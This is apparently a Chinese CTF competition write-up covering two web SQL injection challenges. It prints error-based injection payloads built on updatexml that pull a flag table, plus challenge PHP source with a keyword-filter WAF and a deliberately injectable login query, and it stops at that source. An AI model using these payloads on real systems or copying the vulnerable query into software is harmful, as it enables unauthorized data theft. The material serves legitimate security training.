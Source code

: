 # 网络安全管理职业技能竞赛Web writeup_合天网安学院-程序员宝宝 - 程序员宝宝
## 网络安全管理职业技能竞赛 Web writeup\_合天网安学院 - 程序员宝宝

技术标签： [ext](/searchArticle?qc=ext&page=1 "ext")  [CTF](/searchArticle?qc=CTF&page=1 "CTF")  [nagios](/searchArticle?qc=nagios&page=1 "nagios")  [ado.net](/searchArticle?qc=ado.net&page=1 "ado.net")  [sdl](/searchArticle?qc=sdl&page=1 "sdl")  [openssh](/searchArticle?qc=openssh&page=1 "openssh")  

如果你也想练习 CTF，请点击[CTF 实验室](https://www.hetianlab.com/pages/CTFLaboratory.jsp?pk_campaign=CSDN-wemedia)

**Web**

**0x01 easy_sql**

一开始看到是 easysql，那就先上 sqlmap 跑跑看，跑出了数据库名 security 以及若干表名

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHpXZWlhbWljc2tWTVFvTlRZbkIxQWNlZ2V3Z01nMk1kWkhQOU1tMGhIU3NGN1F4YlJqVFpXelltQS82NDA?x-oss-process=image/format,png)

继续跑 flag，结果没跑出来，最后还是上手工了。

测试输入一个单引号，页面无反应，但是在源码中发现了又报错信息

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHo2b0FUaWFReW9taWFEN0Yyd3B4NTBwRWRkT2NpYzBLS3lzUTIyN1o5SlBCNHBGODQwVDhHRHlPSmcvNjQw?x-oss-process=image/format,png)

接着用单引号和括号闭合，报错注入，之后想了一下，为什么页面没有回显呢，原来是因为错误信息居然显示白色，前期被骗了很久，用鼠标描一下即可看到。

    uname=aaa') or updatexml(1,concat(0x7e,mid((select * from flag),1,25)),1)%23&passwd=bbbb 

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHpKemtXY3o5V3d0dXlXa0JxMTlwUmNCOXJXQ0g5NUEzUlNmU0xtelhsRkc2aGYyM2tYaWNidk53LzY0MA?x-oss-process=image/format,png)

    uname=aaa') OR updatexml(1,concat(0x7e,mid((select * from flag),23,50)),1)%23&passwd=bbbb 

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHpjZDlZWjJSQUVSV0JyQ3lwaFVNZlE0YURnc05iZm9BN3Uxb1ZpYUtHbEdpYXg0RW9PMkVmZEo4QS82NDA?x-oss-process=image/format,png)

**0x02 ezsqli**

开局一个输入框

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHpuSWtVMkk1WlZIU1Joakg2RDlRZ2gxdE5iQkpQTEFaZmlhSENueklpYWFVc1NaWFJ4cVVZSXFsQS82NDA?x-oss-process=image/format,png)

查看 hint 得到源码

```php
    //a "part" of the source code here

    function sqlWaf($s)
    {
        $filter = '/xml|extractvalue|regexp|copy|read|file|select|between|from|where|create|grand|dir|insert|link|substr|mid|server|drop|=|>|<|;|"|\^|\||\ |\'/i';
        if (preg_match($filter,$s))
            return False;
        return True;
    }

    if (isset($_POST['username']) && isset($_POST['password'])) {

        if (!isset($_SESSION['VerifyCode']))
                die("?");

        $username = strval($_POST['username']);
        $password = strval($_POST['password']);

        if ( !sqlWaf($password) )
            alertMes('damn hacker' ,"./index.php");

        $sql = "SELECT * FROM users WHERE username='${username}' AND password= '${password}'";
    //    password format: /[A-Za-z0-9]/
```